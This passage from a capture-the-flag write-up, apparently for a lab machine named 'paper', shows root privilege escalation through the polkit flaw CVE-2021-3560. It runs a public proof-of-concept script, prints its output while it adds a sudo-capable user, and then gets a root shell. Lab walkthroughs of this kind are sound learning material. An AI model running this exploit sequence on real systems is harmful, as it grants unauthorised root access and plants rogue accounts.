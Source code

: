 ```
[dwight@paper ~]$ rpm -qa | grep -i polkit
polkit-0.115-6.el8.x86_64
polkit-pkla-compat-0.1-12.el8.x86_64
polkit-libs-0.115-6.el8.x86_64
```

Using the [authors poc script](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) we are able to create a new user with sudo rights and add the root flag to our collection. Note that this exploit is because of its time based nature not completely stable and might need rerunning until it works.

```
[dwight@paper tmp]$ ./poc.sh -u=sm1l3z -p=sm1l3z

[!] Username set as : sm1l3z
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username sm1l3z...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username sm1l3z  with UID 1006!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using sudo - sm1l3z
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper tmp]$ su - sm1l3z
Password:
[sm1l3z@paper ~]$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for sm1l3z:
[root@paper sm1l3z]# wc -c /root/root.txt
33 /root/root.txt
```